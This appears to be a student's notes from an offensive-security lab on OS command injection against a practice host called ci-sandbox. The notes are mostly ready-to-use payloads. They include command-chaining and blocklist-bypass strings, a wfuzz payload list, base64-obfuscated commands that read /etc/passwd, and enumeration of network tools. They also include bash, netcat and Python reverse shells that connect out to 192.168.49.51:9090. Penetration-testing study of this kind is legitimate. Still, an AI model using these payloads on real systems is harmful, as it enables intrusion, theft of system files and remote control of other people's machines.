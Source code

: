 #### Command Injection

In the case of Linux, we can use the semicolon (;), the logical AND (&&), the logical OR (||), and even a single pipe character (|).

```
ls -ls; id

```
We can also use && to chain commands. In this case the second command will only run if the first exits without error
A logical OR (||) will only run the second command if the first fails.

 Linux-specific inline execution1 mechanisms. Considers these examples, which use the backtick (`) character and the $() null statement to "wrap" a command ("cmd")

http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1;whoami

http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|cat%20/var/tmp/exercise_chaining_flag.txt

#### Input Normalization

```
http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|bash -c 'bash -i >& /dev/tcp/192.168.49.51/9090 0>&1'

curl "http://ci-sandbox/nodejs/index.js?ip=127.0.0.1|bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.51/9090+0>%261'"

```
#### Input Sanitization - Blocklisted Strings Bypass

Command substitution:

echo "I am `whoami` here"

echo "I am $(whoami) here"

Substituted command get executed first. So you can use it to get a shell.
http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1$(nc -nv 10.11.1.2 4444)  -> might need url encoding

A Null Statement Injection Bypass:

wh$()oami
n$()c -n$()lvp 9090

```

http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1;wh$()oami

```

#### Custom command list
```
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```
Commands:

```
wfuzz -c -z file,/home/kali/command_injection_custom.txt --hc 404 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ

wfuzz -c -z file,/home/kali/command_injection_custom.txt --hc 404 --hh 1156 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ


```

```
echo "cat /etc/passwd" |base64

http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`

```
might need to pass to bash or use $(cmd) for it to get executed.

echo "encoded string" | base64 -d | bash
$(echo "encoded string" | base64 -d)

#### Blind OS Command Injection Bypass

```
time curl http://ci-sandbox:80/php/blind.php?ip=127.0.0.1

time curl "http://ci-sandbox:80/php/blind.php?ip=127.0.0.1;sleep%2020"

```
1
(hacktricks.xyz, 2021), https://book.hacktricks.xyz/pentesting-web/unicode-normalization-vulnerability ↩︎

sol:
```

http://ci-sandbox/php/blocklisted.php?ip=127.0.0.1;`echo%20%22Y2F0IC9ldGMvcGFzc3dkCg==%22%20|base64%20-d`

http://ci-sandbox/php/blocklisted_exercise.php?ip=127.0.0.1$(id)
```
#### Enumerating Command Injection Capabilities

Linux:

|COMMAND	| USED FOR|
|---------------|---------|
wget	|File Transfer
curl	|File Transfer
fetch	|File Transfer
gcc	|Compilation
cc	|Compilation
nc	|Shells, File Transfer, Port Forwarding
socat	|Shells, File Transfer, Port Forwarding
ping	|Networking, Code Execution Verification
netstat	|Networking
ss	|Networking
ifconfig	|Networking
ip	|Networking
hostname	|Networking
php	|Shells, Code Execution
python	|Shells, Code Execution
python3	|Shells, Code Execution
perl	|Shells, Code Execution
java	|Shells, Code Execution

Windows:

|CAPABILITY	|USED FOR|
|-----------|--------|
Powershell	|Code Execution, Enumeration, Movement, Payload Delivery
Visual Basic	|Code Execution, Enumeration, Movement, Payload Delivery
tftp	|File Transfer
ftp	|File Transfer
certutil	|File Transfer
Python	|Code Execution, Enumeration
.NET	|Code Execution, Privilege Escalation, Payload Delivery
ipconfig	|Networking
netstat	|Networking
hostname	|Networking
systeminfo	|System Information, Patches, Versioning, Arch, etc.



capability_checks_custom.txt -> add "w00tw00t" as a baseline for a non-existent file
```
w00tw00t
wget
curl
fetch
gcc
cc
nc
socat
ping
netstat  
ss
ifconfig
ip
hostname
php
python
python3
perl
java
```
```
wfuzz -c -z file,/home/kali/capability_checks_custom.txt --hc 404 "http://ci-sandbox:80/php/index.php?ip=127.0.0.1;which FUZZ"
```

(PayloadAllTheThings, 2021), https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md ↩︎


#### Obtaining a Shell - Netcat

http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|id

```
http://ci-sandbox:80/nodejs/index.js?ip=127.0.0.1|/bin/nc%20-nv%20192.168.49.51%209090%20-e%20/bin/bash
```
#### Obtaining a Shell - Python

Python rev shell one liner:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.51",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The code:

```
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.49.51",9090))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);'
```

Calling:

```
http://ci-sandbox/php/index.php?ip=127.0.0.1;python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.49.51%22,9090));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```
